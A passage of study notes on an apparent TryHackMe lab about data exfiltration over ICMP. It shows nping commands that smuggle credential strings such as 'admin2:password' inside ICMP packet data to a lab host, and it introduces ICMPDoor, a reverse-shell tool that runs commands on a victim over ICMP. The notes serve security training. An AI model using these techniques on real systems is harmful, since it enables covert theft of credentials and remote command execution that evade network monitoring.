 ![](/assets/img/Pasted image 20230110000521.png)

	- The "OK" packet is then sent by the icmp.thm.com at the end.

- `Second` packet:
`thm@icmp-host:~# sudo nping --icmp -c 1 10.10.178.55 --data-string "admin2:password"`

	- The Wireshark packets are the same as above just the user is the one that is changed.

![](/assets/img/Pasted image 20230110000800.png)

	- The "OK" packet is then sent by the icmp.thm.com at the end.

- `Final` packet:
`thm@icmp-host:~# sudo nping --icmp -c 1 10.10.178.55 --data-string "EOF"`
![](/assets/img/Pasted image 20230110001146.png)

- In wireshark:
![](/assets/img/Pasted image 20230110001215.png)

![](/assets/img/Pasted image 20230110001226.png)

![](/assets/img/Pasted image 20230110001235.png)

![](/assets/img/Pasted image 20230110001246.png)

<u>From icmp.thm.com POV</u>:
![](/assets/img/Pasted image 20230109234330.png)

<u>In Metasploit</u>:
![](/assets/img/Pasted image 20230109234419.png)

	- Notice that Metasploit also RENAMES it from 'file.txt' to some other complicated text file name.

- Looking at the directory:
![](/assets/img/Pasted image 20230109234631.png)


### ICMP C2 Communication

**DO THIS FIRST**:
![](/assets/img/Pasted image 20230110011014.png)

	- One terminal for the jump box and the ICMP host for the other inside the AttackerBox VM.

- Next, we will show executing commands over the ICMP protocol using the `ICMPDoor` tool.
- Link: `https[:][/][/]github[.]com[/]krabelize[/]icmpdoor`

- **ICMPDoor** is an open-source reverse-shell written in Python3 and scapy.
- The tool uses the same concept we discussed earlier in this task, where an attacker utilzies the `Data section` within the `ICMP` packet.
- ***The only difference is that an attacker sends a command that needs to be `executed` on a victim's machine***.
